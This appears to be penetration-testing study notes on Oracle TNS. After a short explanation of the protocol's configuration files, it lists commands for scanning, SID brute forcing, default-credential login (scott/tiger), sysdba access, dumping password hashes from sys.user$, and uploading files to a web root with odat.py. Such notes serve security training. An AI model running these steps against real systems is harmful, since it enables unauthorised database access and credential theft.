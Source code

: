 ## Oracle TNS

The Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks. 
Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service. The entry consists of a name for the service, the network location of the service, and the database or service name that clients should use when connecting to the service. 
On the other hand, the listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance.

### Footprint the service
**NMAP**
````
$ sudo nmap -p1521 -sV 10.129.204.235 --open
````
**SID Bruteforcing**
````
$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
````
We can use the odat.py tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components. 
````
$ ./odat.py all -s 10.129.204.235
````
**SQLplus - Log In**
````
$ sqlplus scott/tiger@10.129.204.235/<SID>
````
**Oracle RDBMS - Interaction**
````
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;
````
**Oracle RDBMS - Database Enumeration**
````
$ sqlplus <USER>/<PASS>@<IP>/<SID> as sysdba
SQL> select * from user_role_privs;
````
**Oracle RDBMS - Extract Password Hashes**
````
SQL> select name, password from sys.user$;
````
**Oracle RDBMS - File Upload**
````
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d <SID> -U <USER> -P <PASS> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
````
ODAT Setup
````
https://github.com/quentinhardy/odat/releases
sudo apt-get install alien
get basic and sqlplus .rpm https://www.oracle.com/database/technologies/instant-client/linux-x86-64-downloads.html
sudo alien -i oracle-instantclient-basic-23.8.0.25.04-1.el9.x86_64.rpm
sudo alien -i oracle-instantclient-sqlplus-23.8.0.25.04-1.el9.x86_64.rpm
sudo sh -c "echo /usr/lib/oracle/23/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
./odat-libc2.17-x86_64 all -s <IP> 
````
